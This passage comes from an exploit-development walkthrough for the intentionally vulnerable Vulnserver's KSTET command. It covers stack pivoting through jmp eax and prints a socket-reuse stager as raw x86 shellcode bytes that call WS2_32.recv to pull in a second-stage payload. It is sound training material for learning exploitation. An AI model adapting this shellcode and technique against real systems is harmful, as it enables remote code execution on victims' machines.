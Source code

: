 After crashing our program, beyond EIP we can see our ```jmp eax```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-1-sp1.png">
</div>

Proceeding with step intos, we can see that we have been redirected into the buffer data

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-1-sp2.png">
</div>

So we can successfully land into buffer data by stack pivoting

## Socket reusing

This ```KSTET``` command is almost similar to ```GTER``` command, the only difference between them is the buffer size

The ```JMP.&WS2_32.recv()``` is same and static, since they are all from the same program

We just need to craft the ```socket reuse stager``` to push the arguments into the stack for ```JMP.&WS2_32.recv()```

I have clearly discussed how to craft the socket reuse stager in detail on my previous post

We will be using the same stager, because we need the same operation to be performed by this socket

## Adding socket reuse stager

The socket reuse stager used for the previous exploit is,

```c
file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"
```
